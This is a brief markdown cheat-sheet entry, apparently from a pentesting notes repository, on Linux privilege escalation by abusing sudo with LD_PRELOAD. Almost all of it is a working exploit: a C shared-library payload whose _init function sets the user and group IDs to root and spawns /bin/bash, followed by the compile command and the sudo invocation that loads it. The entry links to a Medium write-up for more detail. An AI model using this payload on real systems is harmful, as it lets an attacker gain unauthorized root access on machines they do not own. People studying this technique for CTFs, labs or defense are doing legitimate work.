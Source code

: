 - - -

### LD_PRELOAD :

```sh
sudo -l
```

![Imgur](https://i.imgur.com/b1CMg8q.png)

Create a File named "shell.c" inside /tmp directory.

```
cat shell.c
```

```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
void _init() {  
        unsetenv("LD_PRELOAD");  
        setgid(0);  
        setuid(0);  
        system("/bin/bash");  
}
```

```sh
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

```sh
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/<what_is_in_your_sudo_>
```

> [! NOTE ] 
>  In the above command we have to **put the full path to the shell.so** file, Otherwise it will not work.

more details : [c0nd4.medium.com](https://c0nd4.medium.com/linux-sudo-ld-preload-privilege-escalation-7e1e17d544ec)

- - -

